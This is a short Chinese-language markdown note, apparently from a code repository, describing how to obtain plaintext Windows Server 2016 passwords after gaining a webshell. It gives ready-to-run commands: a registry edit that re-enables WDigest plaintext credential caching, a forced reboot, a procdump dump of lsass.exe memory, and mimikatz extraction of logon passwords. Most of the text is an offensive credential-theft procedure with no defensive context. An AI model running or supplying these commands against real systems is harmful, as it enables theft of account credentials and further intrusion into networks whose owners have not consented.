






# #windows2016明文密码获取

###windows从win10开始，默认不会在 lsass.exe 里存储明文密码，可以在管理员权限下修改注册表，再迫使管理员重新登录，获取明文密码 

###蚁剑链接  打开终端

###修改注册表

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`

###重启服务器

`shutdown /r /t 0`

###在当前目录打开终端，执行下面的命令获取内存中的密码信息

`procdump64.exe -accepteula -ma lsass.exe lsass.dmp`

下载生成的lsass.dump到本机

###使用mimikatz即可成功抓取明文密码

`mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt`

